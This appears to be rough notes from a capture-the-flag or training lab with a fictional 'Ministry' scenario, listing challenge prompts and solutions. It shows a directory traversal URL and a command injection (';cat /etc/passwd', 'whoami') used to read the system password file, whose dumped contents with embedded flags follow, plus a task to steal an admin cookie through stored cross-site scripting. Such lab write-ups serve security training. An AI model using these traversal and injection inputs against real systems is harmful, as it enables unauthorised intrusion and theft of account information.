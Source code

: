         Once identified utilize that vulnerability to obtain the flag from where information about user is configured on the system.
        - http://10.100.28.55/books_pick.php?book=/../../../../../etc/passwd
        - ddnTkud91V0eZbpvEhXI

4. Command injection 2

        Natasha Romanoff has been identified as a major contracting officer for the Ministry. Intelligence suggests that she may have a file on system which will identify which companies are contracted to work on sensitive projects.

        Investigate Ministry website and identify vulnerabilities which could allow collection through usage of command injection, directory traversal, or unrestricted file upload

5. Stored Cross

        Intel has found that by policy the Admin must check the Trouble Ticketing system every few minutes. Team lead orders are to "obtain" the Admins cookie.
YdY8vrRGOsRfhy6
6. Command line injection 1

        Identify the user that the MI website is running as and relevant information about their user environment.

        1. I    NDUSTRY CHECK website
        2. use teh second web 
        3. `whoami` => www-data
        4. ;cat /etc/passwd
        root:x:0:0:root:/root:/bin/bash
        daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
        bin:x:2:2:bin:/bin:/usr/sbin/nologin
        sys:x:3:3:sys:/dev:/usr/sbin/nologin
        sync:x:4:65534:sync:/bin:/bin/sync
        games:x:5:60:games:/usr/games:/usr/sbin/nologin
        man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
        lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
        mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
        news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
        uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
        proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
        www-data:x:33:33:you found me vm4B7tY8qpadtg3ZXmWq:/var/www:/bin/bash
        backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
        list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
        irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
        gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
        nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
        systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
        systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
        syslog:x:102:106::/home/syslog:/usr/sbin/nologin
        messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
        _apt:x:104:65534::/nonexistent:/usr/sbin/nologin
        lxd:x:105:65534::/var/lib/lxd/:/bin/false
        uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
        dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
        landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
        sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
        pollinate:x:110:1::/var/cache/pollinate:/bin/false
        ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
        mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
        mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/fals
